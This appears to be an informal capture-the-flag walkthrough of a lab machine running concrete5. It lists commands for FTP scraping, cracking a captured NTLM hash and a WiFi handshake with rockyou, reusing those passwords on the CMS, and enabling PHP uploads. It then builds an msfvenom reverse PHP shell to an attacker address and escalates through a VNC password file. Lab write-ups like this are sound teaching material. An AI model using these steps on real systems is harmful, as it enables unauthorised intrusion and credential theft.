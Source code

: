 Started with a nmap scan 
```
80 Apache 2.4.29
4012 OpenSSH 7.6p1
4019 vsftpd 3.0.3
```
Starting with the ftp nmap tells us that anonymous login is allowed there are three files we can only download the note from the ftp says that someone hacked into the network the cap file is wireshark logs and a website was missing 
```
.cap
IDS_logs
note.txt
```
Starting a gobuster scan with `2.3-medmium` seems like there is nothing in the web root folder and everything is under `concrete5` folder
```
index.php
/updates
/packages
/application
/concrete
/robots.txt
```

The cms running on this webserver is `concrete5 8.5.2` 

Downloading all the files from the ftp with this command
`wget ftp://anonymous@10.10.206.207:4019/` 
and downloads a bunch of files looking at the pcap files one stands out to have a `ntlmssp` in it file called `14-01-21.pcappng` there a user called `3B\lgreen` and we can see the `ntlmhash` and challenge we can crack it with hashcat 
`hashcat -m 5600 hash rockyou.txt -o cracked`
domain `3B` user `lgreen` password `P....0rd` 
and now looking at the other folders it downloaded `.cap` there is a note in there and a another cap file from looking at the note looks like there was a wifi attack so lets see if we can crack it
`aircrack-ng SamsNetwork.cap -w rockyou.txt` cracked the wifi key `sa...go` 
Going back to the website we get a list of users to try from looking around the site
```
Benjamin_Blogger
Lucy_Loser
Adam_Admin
Donald_dump
lgreen
```
Testing all these logins with the 2 passwords we found one logins in
`Donald_dump:s....ago` 
After logging in we see a bunch of errors but if we remove the `/welcome` from the url and we get the main dashboard from when looking on google before we had logins I found a site that shows how to get a rev shell from the admin user which we not got we need to go to `system settings` and go to `allow file tpyes` and a php in there and now we can upload a php shell 
`msfvenom -p php/reverse_php LHOST=10.13.8.255 LPORT=1234 > shell.php`
Found the database password and user and got the hashes form the database and see if they crack looing in all the folders found one in the `donalddump` users folder and in the image `d.png` it has text overlapping each other but if you open it in gimp and scale the image you can see what looks like a password `$$L3q.....ol` and we got ssh access as the user now to access are home folder we need to give us access `chmod 777 donalddump` and see can see a file passwd its a vnc passwd word 
	`vncviwer -passwd passwd 10.10.206.207::5901` 
And now we have root and can find the root flag in the `.nothing` folder